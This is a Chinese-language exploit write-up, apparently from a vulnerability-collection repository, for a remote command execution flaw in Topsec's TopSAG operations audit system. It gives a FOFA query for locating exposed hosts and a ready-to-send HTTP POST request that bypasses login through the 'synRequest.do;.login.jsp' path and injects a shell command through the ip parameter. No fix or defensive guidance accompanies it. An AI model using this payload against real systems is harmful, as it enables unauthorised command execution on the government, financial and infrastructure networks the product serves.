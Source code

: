 # 一、漏洞简介
天融信运维安全审计系统TopSAG是基于自主知识产权NGTOS安全操作系统平台和多年网络安全防护经验积累研发而成，系统以4A管理理念为基础、安全代理为核心，在运维管理领域持续创新，为客户提供事前预防、事中监控、事后审计的全方位运维安全解决方案，适用于政府、金融、能源、电信、交通、教育等行业。天融信运维安全审计系统synRequest存在远程命令执行漏洞

# 二、影响版本
+ 天融信运维安全审计系统

# 三、资产测绘
+ fofa`header="iam" && server="Apache-Coyote/"`
+ 特征

![image-20241027110055964](assets/image-20241027110055964.png)

# 四、漏洞复现
```plain
POST /iam/synRequest.do;.login.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

method=trace_route&w=1&ip=127.0.0.1|echo%20`whoami`%3b&m=10
```

![image-20241027110112047](assets/image-20241027110112047.png)

